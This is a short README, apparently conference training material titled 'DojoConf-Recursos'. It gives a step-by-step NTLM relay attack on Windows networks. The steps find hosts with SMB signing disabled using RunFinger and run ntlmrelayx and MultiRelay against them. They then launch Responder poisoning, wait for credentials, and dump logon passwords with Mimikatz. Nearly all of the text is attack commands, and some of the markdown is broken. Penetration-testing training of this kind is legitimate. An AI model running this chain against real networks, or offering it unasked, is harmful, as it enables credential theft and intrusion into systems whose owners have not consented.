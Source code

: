 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt**
 ```   
 ```
 python MultiRelay.py -t <target_machine_IP> -u ALL
 ntlmrelayx.py -tf targets.txt --smb2support**
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



